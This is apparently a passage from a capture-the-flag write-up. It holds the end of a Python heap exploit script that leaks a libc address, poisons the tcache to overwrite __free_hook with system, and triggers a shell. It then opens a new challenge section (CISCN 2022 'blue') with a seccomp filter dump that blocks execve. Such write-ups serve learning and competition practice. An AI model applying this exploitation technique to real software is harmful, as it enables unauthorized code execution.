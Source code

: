 ```bash
    add(i,0x80,'a')

add(7,0x80,'a')
add(8,0x80,'a')
add(9,0x20,'b')

for i in range(7):
    delete(i) 

delete(8)
show(8)
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
__free_hook=libc_base+libc.sym["__free_hook"]
system_addr=libc_base+libc.sym["system"]
leak("libc_base ",libc_base)

delete(7)

add(10,0x80,'a')

delete(8) # tcahcebin unsortedbin

payload='a'*0x80+p64(0)+p64(0x91)+p64(__free_hook)
add(11,0xa0,payload)

add(12,0x80,'/bin/sh\x00')
add(13,0x80,p64(system_addr))
delete(12)
'''
'''
#duan()
p.interactive()
```

## CISCN 2022 华东北分区赛 blue

### ida

```bash
line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x05 0xc000003e  if (A != ARCH_X86_64) goto 0007
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x02 0xffffffff  if (A != 0xffffffff) goto 0007
 0005: 0x15 0x01 0x00 0x0000003b  if (A == execve) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x00000000  return KILL
```

